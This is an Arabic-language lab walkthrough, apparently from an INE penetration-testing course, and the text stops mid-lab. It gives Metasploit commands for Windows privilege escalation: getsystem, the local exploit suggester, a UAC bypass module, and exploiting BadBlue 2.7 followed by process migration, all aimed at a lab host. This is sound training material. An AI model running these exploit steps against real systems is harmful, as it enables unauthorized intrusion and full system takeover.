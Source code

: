حلو الان نرجع للميتاسبلويت ونشيك على الليسنر حقنا ونحصل انه فعلا جانا سيشن  
خلونا الان نحاول نرفع صلاحياتنا  
```bash
getsystem  
getuid  
```  
والان نشوف انه تم رفع صلاحياتنا وصرنا NT AUTHORITY\SYSTEM  
طبعا فيه طريقه ثانيه والي هي عن طريق موديول معين  

وظيفة الموديول انه يجمع معلومات عن التارقت بشكل عام وبعدها يعطيك افضل موديول تقدر تستغل فيه بدون اي مشاكل  
خلونا نفرض ان الان اخذنا meterpreter session وماعندنا كامل الصلاحيات وحابين نرفع صلاحياتنا  
```bash
run post/multi/recon/local_exploit_suggester  
```  
والان نشوف انه عطانا 2 موديولز تقريبا  
خلونا نجرب واحد منهم  
```bash
use exploit/windows/local/bypassuac_dotnet_profiler  
set SESSION 1  
exploit  
```  
نشوف انه عطانا سيشن 3 الان فتحها لنا خلونا نحاول نرفع الصلاحيات  
```bash
getsystem  
getuid  
```  
ونشوف انه رفع الصلاحيات بدون اي مشاكل  

فهذي طريقتين جدا راح تساعدك بخصوص رفع الصلاحيات او Privilege Escalation  

الى هنا انتهى اللاب  

خلونا نشوف اللاب الي بعده  

---  

Privilege Escalation Via Services
----------------------------------|  

طيب اول شي كلعاده نشيك على الاتصال بيننا وبين التارقت  
```bash
ping demo.ine.local
```  
نشوف انه فيه اتصال خلونا نفحص الان التارقت بالـ nmap  
```bash
nmap -sV -sC demo.ine.local  
```  
نشوف انه شغال بورت 80 وعليه الخدمة badblue 2.7  
خلونا نستغلها فورا  
```bash
msfconsole -q  
use exploit/windows/http/badblue_passthru  
show options  
set RHOSTS demo.ine.local  
exploit  
sysinfo  
getuid  
```  
الان استغلينا التارقت واخذنا الـ meterpreter session  
نشوف انه معنا يوزر WIN-I219UGQJ7H8\bob  
لابد الان نرفع صلاحياتنا خلونا اول شي نغير البروسس الي شغالينا عليه  
```bash
ps -S explorer.exe  
migrate 2736  
```  
طيب الان نحاول نرفع الصلاحيات  
```bash
getsystem  
```  